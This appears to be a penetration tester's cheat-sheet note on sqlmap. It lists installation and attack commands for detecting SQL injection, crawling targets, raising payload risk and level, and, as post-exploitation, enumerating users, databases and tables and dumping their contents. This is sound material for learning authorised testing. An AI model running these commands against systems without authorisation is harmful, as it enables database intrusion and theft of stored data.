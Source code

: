 ##Scope: Automatic SQL injection and database takeover tool.

sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester, and a broad range of switches including database fingerprinting, over data fetching from the database, accessing the underlying file system, and executing commands on the operating system via out-of-band connections.

<mark style="background: #FF5582A6;">Source</mark>:   https://github.com/sqlmapproject/sqlmap
Environment:  Python

<mark style="background: #FF5582A6;">Installation</mark>:  
***Pre-installed in Kali Linux

```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## <mark style="background: #FF5582A6;">Example usages</mark>

To get a list of basic options and switches:
```
python sqlmap.py -h
```

To get a list of all options and switches:
```
python sqlmap.py -hh
```

### <mark style="background: #D2B3FFA6;">Vulnerability Finding</mark>

### <mark style="background: #FFF3A3A6;">ALL IN ONE</mark>
```
sqlmap -u url.com --threads 5 --level 5 --risk 3 --v 1 --batch
```
 
***Auto Select default features
```
sqlmap -u url.com/news.php?id=1 --batch
```

***Crawling the URL 
```
sqlmap -u url.com --crawl depth --batch
```

***Union attack

```
sqlmap -u url.com --crawl 5 --technique="U" --batch
```

***Thread ---using multiple connection for faster result, default 1, [range= 1 to 10]
```
sqlmap -u url.com --crawl 5 --threads [1 to 10] --batch
```
 
***Risk -- harm level of payloads used, default 1, [range=1 to 3]

```
sqlmap -u url.com --crawl 5 --risk 3
```

***Level -- test in the cookies; default 1, [range=1 to 5]

```
sqlmap -u url.com --crawl 5 --level 5
```

***Verbosity , default 0,[range=0 to 6]
```
sqlmap -u url.com --crawl 5 --batch --v 6
```

### <mark style="background: #D2B3FFA6;">Post Exploitation</mark>

***User Enumeration; after finding a vulnerable parameter

```
sqlmap -u url.com/news.php?id=1 --current-user --batch
```

```
sqlmap -u url.com/news.php?id=1 --hostname --batch
```

***Getting current database name
```
sqlmap -u url.com/news.php?id=1 --current-db --batch
```


***Getting tables in database
```
sqlmap -u url.com/news.php?id=1 -D database_name --tables
```

***Getting All columns in a table
```
sqlmap -u url.com/news.php?id=1 -D database_name -T table_name --dump
```

***Getting a specific Column Type in a specific table
```
sqlmap -u url.com/news.php?id=1 -D database_name -T table_name --columns
```

***Getting all tables in a database
```
sqlmap -u url.com/news.php?id=1 -D database_name --dump-all
```

***Getting all database details
```
sqlmap -u url.com/news.php?id=1 --dbs
```

### <mark style="background: #D2B3FFA6;">Saving Output</mark>

```
sqlmap -u url.com --crawl 5 --output-dir="/location/to/save.txt"
```


